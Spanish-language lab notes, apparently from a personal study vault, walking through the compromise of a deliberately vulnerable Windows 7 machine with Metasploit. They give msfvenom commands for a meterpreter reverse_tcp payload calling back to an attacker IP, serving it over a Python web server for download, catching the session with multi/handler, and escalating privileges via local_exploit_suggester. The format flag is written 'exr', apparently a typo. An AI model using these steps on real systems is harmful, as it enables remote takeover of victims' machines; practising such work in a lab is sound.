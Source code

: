 Vamos a practicar en una maquina Windows 7 vulnerable.

- Vamos a adquirir una sesión de meterpreter en Windows.
	- meterpreter: Payload potente. Se utiliza para realizar tareas de post-explotación en una máquina comprometida.
- Vamos a generar un payloads con la herramienta ==msfvenom==.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP_ATACANTE) LPORT=4444 -f exr -o (NOMBRE_ARCHIVO_CREADO)
```
![[Pasted image 20250112145720.png]]
- Esta la posibilidad que nos tire un error con relación a los bits, para solucionarlo tenemos que modificar el comando.
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=(IP_ATACANTE) LPORT=4444 -f exr -o (NOMBRE_ARCHIVO_CREADO)
```
- Agregamos /x64/.
- Ya que lo tenemos, lo vamos a compartir por un servidor echo en Paython.
```
python3 -m http.server 80
```
![[Pasted image 20250112150214.png]]
- Ahora, en la maquina windows ponemos la IP de la maquina atacante en la URL.
![[Pasted image 20250112150311.png]]
- Descargamos el archivo virus.
- Ahora, abrimos ==metasploit== para ponernos en escucha.
- Para abrir el ==metasploit== en la consola usamos el comando `msfconsole`.
- Ya dentro vamos a usar el siguiente comando:
```
use /multi/handler
```
- Que cumple la función de ==nc==.
![[Pasted image 20250112150659.png]]
- Ya con este payloads vamos a configurarlo con el comando `show options` y vamos a rellenar con la información faltante.
![[Pasted image 20250112150841.png]]
- Ahora nos falta modificar el payload como tal, usamos el comando `set PAYLOAD` y ponemos el payload que creamos en msfvenom.
![[Pasted image 20250112151054.png]]
- Ahora hacemos ==run== en el payload y en windows ejecutamos el programa virus.
![[Pasted image 20250112151222.png]]
- Estamos dentro.
- Estando dentro vamos a usar el comando `background`.
![[Pasted image 20250112151407.png]]
- Este comando permite una sesión activa de meterpreter a fondo, permite que el operador regrese al prompt principal de metasploit (msf) para ejecutar otros comandos o iniciar nuevas sesiones.
- ==Metasploit== tiene un payload que automatiza la búsqueda de sploit que nos permite escalar privilegios.
```
search local_exploit_suggester
```
![[Pasted image 20250112151806.png]]
- Lo vamos a seleccionar.
- Lo vamos a configurar.
![[Pasted image 20250112151850.png]]
- Solo nos va a pedir la session activa de windows.
```
sessions -l
```
![[Pasted image 20250112152004.png]]
- Y la seleccionamos.
```
set SESSION (NUMERO_SESSION)
```
![[Pasted image 20250112152050.png]]
- Verificamos.
![[Pasted image 20250112152118.png]]
- Ya esta seleccionado.
- Ejecutamos el comando run.
![[Pasted image 20250112152149.png]]
![[Pasted image 20250112152247.png]]
- Los exploit verdes son los que nos interesan.
- Vamos a explotar el que esta marcado.
- Copiamos el exploit y usamos el comando `use` + el nombre del exploit.
![[Pasted image 20250112152401.png]]
- Lo configuramos.
![[Pasted image 20250112152437.png]]
- Como podemos ver, nos piden 2 cosas:
	- 1.- La session (que ya sabemos que hay 1 en este windows)
	- 2.- LHOST que es la IP atacante.
![[Pasted image 20250112152623.png]]
- Ya configurado, ejecutamos comando ==run==.
- ==SI YA ESTAMOS OCUPANDO EL PUERTO 4444 ANTERIORMENTE ES RECOMENDABLE CAMBIARLO POR CUALQUIER OTRO==.
![[Pasted image 20250112152831.png]]
- Nuevamente tenemos una sesión meterpreter, ahora vamos a ejecutar el comando `shell` para posterior ejecutar el comando `whoami` y ver si somos usuarios principal.
![[Pasted image 20250112152944.png]]
- Lo somos.